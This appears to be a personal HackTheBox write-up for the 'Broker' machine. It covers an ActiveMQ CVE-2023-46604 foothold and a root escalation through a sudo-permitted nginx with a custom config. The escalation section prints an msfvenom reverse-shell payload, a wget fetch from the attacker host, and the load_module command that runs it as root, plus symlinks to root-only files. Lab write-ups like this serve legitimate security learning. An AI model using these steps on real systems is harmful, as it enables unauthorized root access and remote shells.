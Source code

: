 HTB: Broker

Hi, the reason why I'm making this writeup is because I think I did the privesc of this box in a unique and easier way than others. Instead of writing an SSH key to `/root/.ssh/id_rsa`, or dealing with logs and poisoning, you can just use nginx's `-g` flag to run a shared library.

This writeup won't walk you straight to the solution. I will be mentioning some of the rabbit holes I went down. If you don't want that, then just read the **bold** lines.

### Foothold

- **We're welcomed with an http basic authentication request. Trying `admin:admin` suprisingly works. (I really wasn't expecting that.)**
  
- **It's running ActiveMQ**
  
- **It leaks the version on `http://10.10.11.243/admin/`**
  
- Looking at my outdated `searchsploit`, I couldn't find anything. And considering this is HackTheBox, this shouldn't be the vector right?
  
- I try enumerating port 1883
  

```bash
mosquitto_sub -h 10.10.11.243 -t '#' -v
```

- There is no traffic. So I try making some by browsing the webpage and sending messages from `http://10.10.11.243/admin/send.jsp`. I can only read what I sent. It doesn't help.
  
- So, I kept enumerating other ports, looking at the Nmap output. But they got me nowhere.
  
- **I finally decided to actually look for CVE's. I search on Google for `activemq cve`**
  
- **I was greated with `CVE-2023-46604`, searching for `CVE-2023-46604 github` we find this Python script `https://github.com/evkl1d/CVE-2023-46604`. Written a week before the box's release.**
  
- **We run the exploit and get into the box.**
  

### Privesc

- **My immediate thought was to run `sudo -l` (probably because it's the easiest one. And if there is something you can run using `sudo`, it has the highest chance of involving in the privesc)**
  
- **We see `/usr/sbin/nginx`. Hmm, GTFOBins? Nothing. Nginx runs commands on startup? Nope. File read-write? Didn't think so. What can we do now?**
  
- I run `nginx -h`, find nothing at the first glance, I search the web for something I could use, but no. I look at suid binaries, run `linpeas` but there is nothing I can use.
  
- It's now time to look deeper into the `nginx` vector.
  
- **I see that there is a `-c` option. I can use this to use a custom configuration file.**
  
- **I can also use `-s stop` to stop and restart nginx so we don't disturb others with our endless web-servers**
  
- **Lets create a new configuration file. We'll also need the "default" file from `/etc/nginx/sites-available/default`**
  
- **Now, lets modify them to run our web server as `root` on 4443. And our path will be /home/activemq/.work. I also want to remove things that we surely won't need. (comments, includes from /etc/nginx/*)**
  

```new-config.config
user root;
worker_processes auto;
pid /run/nginx.pid;
#include /etc/nginx/modules-enabled/*.conf;

events {
        worker_connections 768;
}

http {

        sendfile on;
        tcp_nopush on;
        types_hash_max_size 2048;

        include /etc/nginx/mime.types;
        default_type application/octet-stream;

        ssl_prefer_server_ciphers on;

        access_log /var/log/nginx/access.log;
        error_log /var/log/nginx/error.log;

        gzip on;

        #include /etc/nginx/conf.d/*.conf;
        #include /etc/nginx/sites-enabled/*;
        include /home/activemq/.work/new-default;
}
```

```new-default
server {
    listen 4443;
    server_name    nothing.broker.htb
    root /home/activemq/.work/
    location / {}
}
```

- **Now lets run it to see if it works,**
  

```bash
activemq@broker:~/.work$ sudo nginx -c new-config.config 

nginx: [emerg] open() "/usr/share/nginx/new-config.config" failed (2: No such file or directory)
```

- Hmm, it's looking for it in `/usr/share/nginx/` lets specify the current directory.
  

```bash
activemq@broker:~/.work$ sudo nginx -c ./new-config.config 
nginx: [emerg] open() "/usr/share/nginx/./new-config.config" failed (2: No such file or directory)
```

- **Meh, maybe we do some directory traversal,**
  

```bash
activemq@broker:~/.work$ sudo nginx -c ../../../../home/activemq/.work/new-config.config 
```

- **Haha, it worked!**
  
- **I know you can't run php natively on nginx. But I still try writing a webshell to our webroot. Appearently, when you do that you get to download the file. So I set-up a symlink to `/etc/shadow` and `/root/root.txt`. And browse to them.**
  

```bash
activemq@broker:~/.work$ ln -s /root/root.txt flag
activemq@broker:~/.work$ sudo nginx -c ../../../../home/activemq/.work/new-config.config 
```

- **We can get the flag this way. But this is not optimal is it?**
  
- **After reading some Nginx docs: [Command-line parameters](http://nginx.org/en/docs/switches.html), I realize that we can run `-g` with a limited amount of options such as `pid $path` and etc. They are called `global configuration directives`. global- What?**
  
- **I don't know a lot about the others but one of them is actually useful to us: `load_module`**
  
- **So, my goal now is to download an `msfvenom` generated shared library ".so", and run it using `-g load_module priv.so`. DAMN I love this shit.**
  

```bash
Local:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=$local_ip LPORT=8443 -f elf-so > priv.so
$ python3 -m http.server
```

```bash
Remote:
$ wget http://10.10.14.176:8000/priv.so
$ sudo nginx -c ../../../../home/activemq/.work/new-config.config -g 'load_module priv.so'
```

- I hope you didn't forget setting up `multi/handler`
  
- And there is our shell
